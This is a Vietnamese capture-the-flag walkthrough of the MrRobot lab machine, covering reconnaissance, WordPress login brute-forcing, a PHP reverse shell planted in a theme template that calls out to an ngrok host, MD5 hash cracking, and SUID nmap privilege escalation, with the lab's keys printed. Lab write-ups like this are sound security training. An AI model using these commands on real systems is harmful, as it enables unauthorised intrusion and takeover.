 # MrRobot

Sau khi cài đặt xong, do chưa biết địa chỉ IP nên bước đầu tiên là phải xác định IP bằng cách nmap với dải mạng đã biết là 192.168.113.0/24 port 80 để xác định IP của máy MrRobot là bao nhiêu.

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%201.png)

Sau khi có địa chỉ IP, truy cập trên browser

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%202.png)

Sử dụng dirsearch để scan các file và directory

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%203.png)

Đi qua lần lượt từng file và directory, khi truy cập `/robots.txt` ta sẽ được key 1

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%204.png)

Key 1: `073403c8a58a1f80d943455fb30724b9`

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%205.png)

Khi truy cập `/fsocity.dic` sẽ download 1 file, đó là một wordlist có thể được dùng cho lúc sau.

Sử dụng nuclei để scan các CVE

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%206.png)

Truy cập trang đăng nhập /wp-login. Thấy trang web không có cơ chế rate limit ⇒ Có thể bruteforce tài khoản mật khẩu. Thử sử dụng file `fsocity.dic` lấy được ở trên. Sau 1 lúc bruteforce, nhận thấy trang web bị lỗi user enum ⇒ Ta sẽ đi tìm username trước rồi đi tìm password để giảm số lượng request tránh mất thời gian.

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%207.png)

Với username là `elliot` ta tìm được password là: `ER28-0652`

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%208.png)

Brute force 1 lúc thì nhận thấy trong wordlist đó nó có nhiều từ trùng nhau :))) Nên để nhanh hơn, cần xóa bỏ những từ trùng nhau đó bằng nhiều cách ví dụ:

```bash
sort -u fsocity.dic | uniq > fsocity1.dic
```

Giảm được rất nhiều từ trùng lặp

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%209.png)

Sau khi brute force xong thì ta vào được trang chủ của wordpress version … . Lúc này sẽ đi kiếm những CVE liên quan đến version này vì nó khá thấp rồi. Nhưng vì mình đang là admin của wordpress này rồi nên sẽ trực tiếp thay đổi source của ứng dụng này để nó reverse shell về máy luôn. Thực hiện cách revershell theo các bước sau:

- Bước 1: Lắng nghe ở port 9999 và public port này ra bên ngoài bằng ngrok
    
    ```bash
    nc -nlvp 9999
    ngrok tcp 9999
    ```
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2010.png)
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2011.png)
    
- Bước 2: Truy cập chức năng chỉnh sửa theme trên browser: `Appearance` > `Editor` > Chọn 1 trang bất kì (ví dụ 404 Template)
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2012.png)
    
- Bước 3: Xóa đoạn code cũ, thêm vào một đoạn như sau và chọn “Update File”
    
    ```bash
    <?php 
    system('bash -c "bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/10392 0>&1"');
    ?>
    ```
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2013.png)
    
    Trong đó:
    
    - [0.tcp.ap.ngrok.io](http://0.tcp.ap.ngrok.io) là host ngrok gen ra
    - 10392 là port ngrok gen ra
- Bước 4: Truy cập trang 404.php bằng cách `http://192.168.113.129/wp-admin/404.php` và quan sát thấy ứng dụng đã reverse shell về máy chúng ta
    
    ![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2014.png)
    
- Bước 5: Vì shell khi reverse về là 1 shell khá cùi, chúng ta cần tạo 1 TTY shell bằng nhiều cách tham khảo ở [đây](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

Sau khi đã reverse shell xong chúng ta sẽ đi tìm secret thứ 2

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2015.png)

Tìm thấy file đó nhưng chưa có quyền đọc, chỉ có user robot mới đọc được. Ta đọc file `password.raw-md5` thì thấy đây có thể là chứa password của user robot

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2016.png)

Mang đoạn password kia đi tìm xem plaintext của nó là gì

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2017.png)

Password: `abcdefghijklmnopqrstuvwxyz`

Lúc này login vào robot và lấy được secret thứ 2

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2018.png)

Key 2: 822c73956184f694993bede3eb39f959

Mạnh dạn đoán secret 3 sẽ phải leo quyền lên root mới lấy được, leo quyền thì có 3 vector:

- Thứ nhất là `sudo right`
- Thứ hai là `setuid`
- Thứ ba là qua biến môi trường `PATH`

Trong trường hợp này ta sẽ đi theo hướng `setuid`, đầu tiên phải tìm được những file thực thi nào có khả năng nhất bằng cách `find / -perm -4000 2>/dev/null`. Câu lệnh này sẽ tìm tất cả những file được set SUID

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2019.png)

Quan sát thì thấy `nmap` là có khả năng cao nhất nên quyết định sẽ thử leo quyền bằng nmap trước. Có một trang web giúp chúng ta tìm những lệnh để leo quyền lên đó là [GTFOBins](https://gtfobins.github.io/). Lúc này search nmap là ra 1 loạt

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2020.png)

Chúng ta sẽ sử dụng đoạn này để khai thác vì nó ngắn nhất

```bash
nmap --interactive
nmap> !sh
```

Leo quyền lên root thành công thì giờ sẽ đọc secret thứ 3 nữa là xong:

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2021.png)

Đọc secret 3

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2022.png)

Key 3: 04787ddef27c3dee1ee161b21670b4e4

Vì bản Linux này có kernel khá thấp nên cũng có thể tìm cách leo quyền bằng các CVE khai thác kernel

![Untitled](MrRobot%206d995288f07c477eb342aa2481837baf/Untitled%2023.png)

Về phần để reverse shell thì cũng có nhiều cách đó là dùng CVE, dùng metasploit,…
